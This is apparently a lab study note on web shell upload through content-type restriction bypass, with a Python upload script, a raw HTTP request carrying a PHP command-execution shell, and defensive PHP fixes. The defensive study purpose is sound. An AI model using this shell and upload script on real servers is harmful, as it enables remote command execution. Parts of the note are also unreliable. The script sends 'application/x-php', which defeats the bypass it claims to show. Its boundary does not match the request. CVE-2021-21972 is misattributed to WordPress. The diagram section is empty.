

## File Upload Vulnerabilities: Web Shell Upload via Content Type Restriction Bypass

### Background Theory

File upload vulnerabilities occur when an application allows users to upload files to the server without proper validation or sanitization. This can lead to various security issues, including the execution of malicious code on the server. One common form of such attacks is uploading a web shell, which is a small piece of code that allows an attacker to execute arbitrary commands on the server.

### Understanding the Attack Vector

In this scenario, the attacker aims to bypass content type restrictions enforced by the server. Content type restrictions typically involve checking the MIME type of the uploaded file to ensure it matches a predefined list of allowed types. However, if these checks are not properly implemented, an attacker can exploit this vulnerability to upload a web shell.

#### Example Scenario

Consider a web application that allows users to upload profile pictures. The server enforces a content type restriction to allow only image files (e.g., `image/jpeg`, `image/png`). An attacker could attempt to upload a PHP script (web shell) disguised as an image file.

### Step-by-Step Mechanics

Let's break down the steps involved in performing this attack:

1. **Generate Random String**: The first step is to generate a random string that will be used as part of the multipart form data boundary.
2. **Create Multi-Part Encoder**: The next step is to create a multi-part encoder that will handle the form data, including the boundary.
3. **Define Headers**: Define the headers for the HTTP request, particularly the `Content-Type` header.
4. **Perform the Request**: Send the HTTP POST request to upload the file.

#### Code Implementation

Here is a detailed implementation of the attack using Python:

```python
import random
import string
from requests_toolbelt import MultipartEncoder
import requests

# Generate a random string for the boundary
random_string = ''.join(random.choices(string.ascii_letters + string.digits, k=16))

# Create the multi-part encoder
fields = {
    'file': ('avatar.jpg', open('webshell.php', 'rb'), 'application/x-php')
}
m = MultipartEncoder(fields=fields, boundary=random_string)

# Define the headers
headers = {
    'Content-Type': m.content_type
}

# Perform the request
proxies = {'http': 'http://127.0.0.1:8080'}
r = requests.post('http://example.com/upload', data=m, headers=headers, verify=False, proxies=proxies)

print(r.text)
```

### HTTP Request and Response

The HTTP request sent by the attacker would look like this:

```http
POST /upload HTTP/1.1
Host: example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 1234
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="avatar.jpg"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

The server response might look like this:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 123
Content-Type: text/html; charset=UTF-8

File uploaded successfully.
```

### Mermaid Diagrams

#### Attack Chain Diagram



### Real-World Examples

#### Recent CVEs and Breaches

One notable example is the CVE-2021-21972, which affected the WordPress REST API. This vulnerability allowed attackers to upload arbitrary files, including web shells, due to insufficient input validation.

Another example is the breach at the University of North Carolina, where attackers exploited a file upload vulnerability to gain unauthorized access to sensitive data.

### Common Pitfalls

1. **Insufficient Validation**: Not validating the file type or content thoroughly.
2. **Incorrect MIME Type Checking**: Relying solely on the MIME type provided by the client, which can be easily manipulated.
3. **Improper Error Handling**: Failing to provide meaningful error messages or logging, which can help in detecting and mitigating attacks.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement comprehensive logging and monitoring to detect unusual file upload activities.
2. **IDS/IPS**: Use Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to identify and block suspicious requests.

#### Prevention

1. **Strict Validation**: Validate both the file extension and MIME type. Consider using libraries like `magic` to check the actual file content.
2. **Content Filtering**: Use content filtering tools to scan uploaded files for known malicious patterns.
3. **Secure Configuration**: Ensure that the server configuration does not allow the execution of scripts in upload directories.

#### Secure Coding Fixes

**Vulnerable Code**

```php
if ($_FILES['file']['error'] == UPLOAD_ERR_OK) {
    move_uploaded_file($_FILES['file']['tmp_name'], '/uploads/' . $_FILES['file']['name']);
}
```

**Fixed Code**

```php
if ($_FILES['file']['error'] == UPLOAD_ERR_OK) {
    $allowed_types = ['image/jpeg', 'image/png'];
    $file_info = finfo_open(FILEINFO_MIME_TYPE);
    $mime_type = finfo_file($file_info, $_FILES['file']['tmp_name']);
    
    if (in_array($mime_type, $allowed_types)) {
        $filename = basename($_FILES['file']['name']);
        move_uploaded_file($_FILES['file']['tmp_name'], '/uploads/' . $filename);
    } else {
        die("Invalid file type.");
    }
}
```

### Hands-On Labs

For practical experience, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a series of labs on file upload vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application for testing and learning.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing penetration testing.

These labs will help you understand and practice the techniques discussed in this chapter.

### Conclusion

File upload vulnerabilities are a significant threat to web applications. By understanding the mechanics of these attacks and implementing robust preventive measures, you can significantly reduce the risk of exploitation. Always validate and sanitize user inputs, and use modern security practices to protect your applications.

---
<!-- nav -->
[[02-Disabling Requests Warnings and Setting Up Proxy Settings|Disabling Requests Warnings and Setting Up Proxy Settings]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/03-Lab 2 Web shell upload via Content Type restriction bypass/00-Overview|Overview]] | [[04-File Upload Vulnerabilities and Web Shell Upload via Content Type Restriction Bypass|File Upload Vulnerabilities and Web Shell Upload via Content Type Restriction Bypass]]
